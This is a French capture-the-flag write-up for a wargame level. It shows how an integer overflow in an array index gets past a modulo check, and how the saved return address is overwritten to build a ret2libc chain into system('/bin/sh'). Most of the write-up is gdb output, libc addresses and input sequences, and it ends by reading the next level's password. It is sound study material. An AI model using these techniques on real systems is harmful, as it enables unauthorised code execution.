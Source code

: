 # Level07

## Analyse

- On a ici une fonction main qui declare un tableau d'unsigned int de 100 elements et un buffer de 20 char.

- On a au debut de la fonction une suppression des argv et de l'env.

- Ensuite une boucle while(1) qui attend en entree les commandes via `strcmp()` :
    - store : qui va call `store_number()` avec en parametre le tab data.
    - read : qui va call `read_number()` avec en parametre le tab data.
    - quit : qui va break la boucle.

- On a un memset en fin de boucle pour reinitialiser le buffer commande.

- Store_number :
    - declare deux unsigned int number et index
    - Call `scanf()` deux fois via la fonction `get_unum()` pour recuperer le nombre et l'index a store dans le tab data.
    - Avant cette operation il y a une verification : si l'index % 3 == 0 ou number >> 24 == 0xb7 alors return 1.
    - Si cette verification est passee store alors `data[index] = number`.

- Read_number :
    - declare un unsigned int index
    - initialise cette variable avec un call a `scanf()` via la fonction `get_unum()`
    - Ensuite va read l'element a l'index donne dans le tab data.

## Exploitation

- Deja on observe qu'il n'y a pas de protection d'index lors du `store_number()` :

```gdb
Input command: store
Number: 1
Index: 107
Completed  command successfully
```

- Cela nous permet d'overflow le tab et de read la stack

- En parcourant les index on a observe que l'index 114 est : `4158936339`
    - En hexadecimal cela donne : `F7E45513` qui correspond a notre saved eip du main : `saved eip 0xf7e45513`
    - Malheureusement nous ne pouvons pas acceder a l'index 114 car rentre dans la condition index % 3 :

```gdb
Input command: store
Number: 1 
Index: 114
*** ERROR! ***
This index is reserved for wil!
*** ERROR! ***
Failed to do store command
```

- Bon il va falloir trouver une solution pour contourner ces protections : 
    - Dans le code disas on observe des left shift bits de 2 (qui correspond a un *4) :
```gdb
shl     eax, 0x2
```

- Notamment dans la fonction `store_number()` et `read_number()`. Ces multiplications par 4 sont la pour calculer le decalage dans le tab car les valeurs en int : `sizeof(int) = 4 bytes`.

- Cela signifie que pour acceder aux index du tableau il est force a multiplie par 4 pour acceder au bon index.

- La vérification `index % 3` se fait sur l'index original, pas sur le résultat après multiplication.

- Maintenant que l'on sait cela, on peut chercher une valeur qui multiplie par 4 va overflow le unsigned int et donner 114.

- Prenons le u_int max, divisons le par 4 et ajoutons 114 :
    - 4,294,967,296 / 4 + 114 = 1073741938

```gdb
Input command: store
 Number: 1
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 1
 Completed read command successfully
```

- Nous avons donc reussi a modifier notre index 114. Cela nous laisse 3 espaces contigus : 114, 115, 116.

- En reflechissant 2 minutes on peut penser a un ret2libc qui implique 3 adresses : `system()`, `exit()`, `"/bin/sh"`.

- Allons trouver ces adresses :

```gdb
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) info pro
proc     program  
(gdb) info proc mappings 
process 1747
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fda000 0xf7fdb000     0x1000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]

(gdb) find 0xf7e2c000, +0x1a0000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

- Cast en unsigned int : 

```gdb
0x f7e6aed0 = 4159090384 system 114 1073741938
0x f7e5eb70 = 4159040368 exit   115
0x f7f897ec = 4160264172 bin/sh 116
```

- Essayons maintenant d'entrer ces valeurs dans le programme : 

```gdb
Input command: store
Number: 4159090384
Index: 1073741938
Completed store command successfully
Input command: store
Number: 4159040368
Index: 115
Completed store command successfully
Input command: store
Number: 4160264172
Index: 116
Completed store command successfully
```

- Plus qu'a quitter la boucle while avec la commande quit pour rediriger le flux d'execution vers notre `ret2libc` :

```gdb
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
